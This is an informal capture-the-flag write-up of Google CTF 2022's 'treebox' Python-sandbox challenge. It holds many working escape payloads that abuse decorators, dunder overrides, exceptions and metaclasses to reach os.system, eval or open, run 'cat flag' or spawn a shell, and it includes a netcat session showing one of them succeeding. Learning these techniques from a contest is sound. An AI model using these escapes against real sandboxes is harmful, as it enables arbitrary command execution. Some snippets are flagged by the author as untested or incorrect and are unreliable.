 # writeup ?
( more like copy up )

# Things I learnt 
- cwd means current working directory jk i knew that
- I was like where will be the flag file ?
- Is it a hidden file that came with the zip ?
- is it inside python file some .pyc file ?

# Turns out we needed to connect to the url given in question !
- I was sure we needed to get access to a flag file on some server but how do i access the server
- going to the url in browser did nothing 
- curl command also kept running and nothing happened 

## we had to use netcat !
```
nc treebox.2022.ctfcompetition.com 1337
```
### why netcat ?
idek

## you can send a file using <
Comes in handy when you are constantly changing the file you want to send .
```
nc treebox.2022.ctfcompetition.com 1337 < sol1.py
```

# Solution
You were given the sneakpeak of the code present at the server , you just needed to escape the sandbox which was safe python execution on server to access the file named flag which contained the flag.

The safe python exec ran programs without function calls , import statements !

Now you need to figure out how to access the file without calling any function or importing anything 

which is impossible , 

See the question exactly was more like "you can't use import statement or call a function using ()"

## Learnt about dunder / magic method __getitem__ ?
- idk wtf this is don't read bs written below.

- https://www.geeksforgeeks.org/__getitem__-in-python/
- basically make function calls and pass arguments like as if you are accessing a property of an object
```py
class a:__init__=
a.__getitem__ = print
a['help'] # prints help without using ()
```


# best solutions i saw on dc
- official sol
```py
#!/usr/bin/python3
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```

- cool sol with a lot of @ over functions which do nothing
```py
def os_str(x): return 'os'

@__import__
@os_str
def os(): pass

def cmd_str(x): return 'cat flag'

@os.system
@cmd_str
def ret(): pass

--END
```
- idk if this works
```py
global os
class M(type):
    self = "ls"
    pass
class A(metaclass=M):
    pass
M.__add__ = os.system
assert f"{A + 'sh'}" == True
```
- without os.system
```py
class Exploit(BaseException):
    pass

Exploit.__eq__ = open
Exploit.__gt__ = print

try:
    raise Exploit
except Exploit as exploit:
    a = exploit == "flag"
    Exploit.__lt__ = a.read
    b = exploit < None
    exploit > b
```
- wtf
```py
@eval
@'__import__("os").system("sh")'.format
class _:pass
```
- incorrect
```console
Mac:~ sahilsoni$ nc treebox.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
import pdb; pdb.set_trace(); __loader__.__getitem__ = open; a = __loader__['flag']; #--END`
--END
ERROR: Banned statement <ast.Import object at 0x7f9ff569b160>
```
- best one so far imo (understandable)
```console
Mac:~ sahilsoni$ nc treebox.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
class T(BaseException):
    __getitem__=os.system

try:
    raise T
except T as e:
    e['cat flag']
--END
-- Executing safe code:
cat: flag: No such file or directory-- Executing safe code:
CTF{CzeresniaTopolaForsycja}
```
- Exception rose to the ocassion
```py
class A(BaseException):
    def __init__(self):
        self.__class__.__add__ = os.system

    def __str__(self):
        return self + "cat flag"

raise A
--END
```
- match ?
```py
class MyClass(type):
    __instancecheck__ = os.system

class MyClass2(metaclass=MyClass):
    pass

match "/bin/sh":
    case MyClass2():
        pass
```
- illegible
```py
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```
- code golf
```py
sys.stdout.flush=sys.breakpointhook
```



